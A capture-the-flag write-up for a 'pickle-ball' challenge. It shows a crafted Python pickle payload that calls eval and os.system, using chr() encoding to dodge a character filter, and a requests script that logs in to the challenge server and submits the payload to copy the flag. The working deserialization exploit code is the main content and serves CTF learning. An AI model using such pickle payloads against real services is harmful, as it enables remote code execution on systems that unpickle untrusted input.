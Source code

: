# WannaGame Championship

## pickle-ball

> https://cnsc.com.vn/ctf/challenges#Pickleball-52

## Approach

The final target is execute `os.system("cp ../flag static")`, so try:

```python
import pickle

# target: cp ../flag static
payload = b'''\
(S'f"cp {chr(46)*2+chr(47)}flag stati{chr(99)}"'
ibuiltins
eval
.'''

print(pickle.loads(payload))
```

Note that `.` in the payload is filtered, so when exploiting, remove the final `.`. Although this will cause a deserialization error on the server, the code will have already been executed.

```python
import requests
import base64

url = "http://ee4f2d3e42fc3c7c9d846f27e8217392.chall.w1playground.com:8082"

payload = b'''\
(\
(S'f"cp {chr(46)*2+chr(47)}flag stati{chr(99)}"'
ibuiltins
eval
ios
system
'''
payload = base64.b64encode(payload)

with requests.Session() as session:
    session.post(url + "/register", data={"username": "1", "password": "1"})
    session.post(url + "/login", data={"username": "1", "password": "1"})
    resp = session.post(url + "/process", data={"payload": payload})
    print(resp.text)
```

## Flag

Then download the flag at `/static/flag`.
